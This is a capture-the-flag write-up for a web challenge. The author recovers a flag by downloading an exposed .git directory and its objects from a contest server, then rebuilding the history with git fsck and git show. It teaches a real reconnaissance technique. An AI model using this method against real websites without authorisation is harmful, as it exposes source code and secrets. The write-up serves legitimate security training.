 # Writeup for 0ldsk00lBlog (WEB80) (80)

> Solves: 243
> Description: I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML.
> Service: https://0ldsk00lblog.ctf.internetwache.org/
  
Website looked like blog in html only, without any php/js etc. Content highlighted the information about `GIT`

![web801a.png](web801a.png)

We checked url `https://0ldsk00lblog.ctf.internetwache.org/.git`. Result was looking good

![web802.png](web802.png)

Download the default git files:

`https://0ldsk00lblog.ctf.internetwache.org/.git/HEAD`
`https://0ldsk00lblog.ctf.internetwache.org/.git/refs/heads/master`
`https://0ldsk00lblog.ctf.internetwache.org/.git/logs/HEAD`

Logs contained:
```
0000000000000000000000000000000000000000 14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 Sebastian Gehaxelt <github@gehaxelt.in> 1453427711 +0100	commit (initial): Initial commit
14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 dba52097aba3af2b30ccbc589912ae67dcf5d77b Sebastian Gehaxelt <github@gehaxelt.in> 1453427733 +0100	commit: Added next post
dba52097aba3af2b30ccbc589912ae67dcf5d77b 26858023dc18a164af9b9f847cbfb23919489ab2 Sebastian Gehaxelt <github@gehaxelt.in> 1453427864 +0100	commit: Added another post
26858023dc18a164af9b9f847cbfb23919489ab2 8c46583a968da7955c13559693b3b8c5e5d5f510 Sebastian Gehaxelt <github@gehaxelt.in> 1453427881 +0100	commit: My recent blogpost
```

So we download objects, which exists in logs (remember that, first 2 char is dir)
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/14/d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/db/a52097aba3af2b30ccbc589912ae67dcf5d77b`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/26/858023dc18a164af9b9f847cbfb23919489ab2`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/8c/46583a968da7955c13559693b3b8c5e5d5f510`

We put all downloaded files locally, and execute command with result as described below:
```
$ git fsck --full
Checking object directories: 100% (256/256), done.
 broken link from    tree 3be70be50c04bab8cd5d115da10c3a9c784d6bae
               to    blob 5508adb31bf48ae5fe437bdeba60f83982356934
 broken link from  commit dba52097aba3af2b30ccbc589912ae67dcf5d77b
               to    tree 95a5396e62ca5c9577f761ebe969f52d3b6a9235
 broken link from    tree 1949446afea12e0937044fdabe8cc101c87f7c54
               to    blob 7503402e4d48be951cddda34aae6e01905bb5c98
 broken link from  commit 8c46583a968da7955c13559693b3b8c5e5d5f510
               to    tree 33a5c0876603d7a6f9729637f36030bbabb2afa3
 missing tree 33a5c0876603d7a6f9729637f36030bbabb2afa3
 missing blob 7503402e4d48be951cddda34aae6e01905bb5c98
 missing blob 5508adb31bf48ae5fe437bdeba60f83982356934
 missing tree 95a5396e62ca5c9577f761ebe969f52d3b6a9235
```

Just downloaded missing objects:
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/3b/e70be50c04bab8cd5d115da10c3a9c784d6bae`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/55/08adb31bf48ae5fe437bdeba60f83982356934`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/95/a5396e62ca5c9577f761ebe969f52d3b6a9235`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/19/49446afea12e0937044fdabe8cc101c87f7c54`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/75/03402e4d48be951cddda34aae6e01905bb5c98`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/33/a5c0876603d7a6f9729637f36030bbabb2afa3`

Executed `git show`, but missing one more object
```
root@debian:/var/www/iw# git show
fatal: unable to read 25a3f35784188ac1c9bf48a94e5a9c815bcb598c
commit 8c46583a968da7955c13559693b3b8c5e5d5f510
Author: Sebastian Gehaxelt <github@gehaxelt.in>
Date:   Fri Jan 22 02:58:01 2016 +0100

    My recent blogpost
```

Downloaded it:
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/25/a3f35784188ac1c9bf48a94e5a9c815bcb598c`

And finally `git show` give us a flag.
```
root@debian:/var/www/iw# git show
commit 8c46583a968da7955c13559693b3b8c5e5d5f510
Author: Sebastian Gehaxelt <github@gehaxelt.in>
Date:   Fri Jan 22 02:58:01 2016 +0100

    My recent blogpost

diff --git a/index.html b/index.html
index 5508adb..25a3f35 100644
--- a/index.html
+++ b/index.html
@@ -3,9 +3,15 @@
        <title>0ldsk00l</title>
 </head>
 <body>
-       <h2>2000</h2>
+
+       <h1>Welcome to my 0ldsk00l blog.</h1>
+       <p>
+               Now this is some oldskool classic shit. Writing your blog manually without all this crappy bling-bling CSS / JS stuff.
+       </p>
+
+       <h2>2016</h2>
        <p>
-               Oh, did I say that I like kittens? I like flags, too: IW{G1T_1S_4W3SOME}
+               It's 2016 now and I need to somehow keep track of my changes to this document as it grows and grows. All people are talking about a tool called 'Git'. I think I might give this a try.
        </p>

        <h2>1990-2015</h2>

```